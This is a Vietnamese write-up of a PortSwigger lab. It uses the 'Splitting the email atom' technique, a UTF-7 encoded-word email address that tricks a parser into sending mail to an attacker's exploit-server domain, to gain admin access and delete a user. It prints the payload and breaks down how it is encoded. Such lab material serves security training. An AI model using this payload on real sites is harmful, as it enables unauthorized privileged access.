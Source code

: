 ![image](https://hackmd.io/_uploads/BJxqDAAp1l.png)

Theo kỹ thuật khai thác được phân tích ở bài này: [Splitting the email atom: exploiting parsers to bypass access controls](https://portswigger.net/research/splitting-the-email-atom) mail chúng ta muốn và nó có thể gửi đi được sẽ có dạng như sau

```
attacker@exploit-0a3200840378828180af344601f70006.exploit-server.net@ginandjuice.shop
```

Tuy nhiên mail ở trên sẽ không hoạt động vì có 2 ký tự `@` do đó ta sẽ tiến hành encode để mã hóa nó

```
=?utf-7?q?attacker&AEA-exploit-0a3200840378828180af344601f70006.exploit-server.net&ACA-?=@ginandjuice.shop

=? bắt đầu encode
utf-7 định dạng mã hóa
q mã hóa dưới định dạng quoted-printable
& đại diện cho `+`` và được bypass cho '@'
AEA- đại diện cho `@` trong encode utf-7
ACA- đại diện cho dấu cách
?= kết thúc encode
```
Kết quả khi sẽ được hiển thị như sau
```
attacker@exploit-0a3200840378828180af344601f70006.exploit-server.net @ginandjuice.shop
```

Đăng ký và ta có được admin panel, xóa user `carlos` và hoàn thành bài lab

![image](https://hackmd.io/_uploads/rkCk9AApke.png)
